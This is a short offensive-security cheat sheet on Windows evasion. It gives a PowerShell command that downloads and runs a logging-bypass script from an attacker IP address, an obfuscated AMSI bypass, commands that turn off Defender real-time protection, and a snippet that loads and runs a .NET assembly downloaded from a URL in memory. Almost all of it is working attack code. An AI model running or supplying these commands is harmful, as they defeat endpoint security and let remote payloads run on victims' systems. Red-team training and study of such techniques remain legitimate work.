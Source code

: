# Evasion

### Bypass AMSI

First bypass the Enhanced Script Block Logging

```powershell
iex (iwr http://172.16.99.115/sbloggingbypass.txt -UseBasicParsing)
```

To bypass the AMSI

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVprotection $true -Verbose
```

### Execute exe

bypass amsi and then

{% code overflow="wrap" %}
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('<URL>');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[<Program>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
{% endcode %}
